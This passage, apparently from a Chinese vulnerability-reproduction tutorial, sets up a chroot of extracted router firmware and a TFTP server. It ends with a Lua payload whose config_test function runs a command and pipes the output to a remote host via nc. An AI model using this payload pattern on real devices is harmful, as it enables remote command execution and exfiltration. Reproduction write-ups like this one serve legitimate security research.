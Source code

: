 使用 chroot 后，系统读取的是新根下的目录和文件，也就是固件的目录和文件。 chroot 默认不会切换 /dev 和 /proc, 因此切换根目录前需要现挂载这两个目录。

到此可以看到已经切换到了该固件的环境

```bash
root@debian-armhf:~/work# mount -o bind /dev ./squashfs-root/dev/
root@debian-armhf:~/work# mount -t proc /proc/ ./squashfs-root/proc/
root@debian-armhf:~/work# chroot squashfs-root sh


BusyBox v1.19.4 (2018-05-18 20:52:39 PDT) built-in shell (ash)
Enter 'help' for a list of built-in commands.

/ #

```



然后宿主机中安装ftp服务器：

```bash
sudo apt install atftpd
```

配置ftp服务：

```bash
vim /etc/default/atftpd
# 修改USE_INETD=true 改为 USE_INETD=false
# 修改修改/srv/tftp为相应的ftp目录，我这里为/opt/ftp

```

配置目录

```bash
sudo mkdir /opt/ftp_dir
sudo chmod 777 /opt/ftp_dir
```

启动服务

```bash
sudo systemctl start atftpd
```

使用`sudo systemctl status atftpd`可查看服务状态。如果执行命令 `sudo systemctl status atftpd` 查看 atftpd 服务状态时，提示 `atftpd: can't bind port :69/udp` 无法绑定端口，可以执行 `sudo systemctl stop inetutils-inetd.service` 停用 `inetutils-inetd` 服务后，再执行 `sudo systemctl restart atftpd` 重新启动 atftpd 即可正常运行 atftpd。

前面都是准备环境的环节，接着就是复现漏洞的真正操作部分了。

首先是往ftp服务器的目录中写入payload文件，文件需由lua语言编写，且包含`config_test`函数，实现功能可以随意，此处使用nc连接。

```bash
function config_test(config)
  os.execute("whoami | nc  192.168.10.1 7777")
end
```
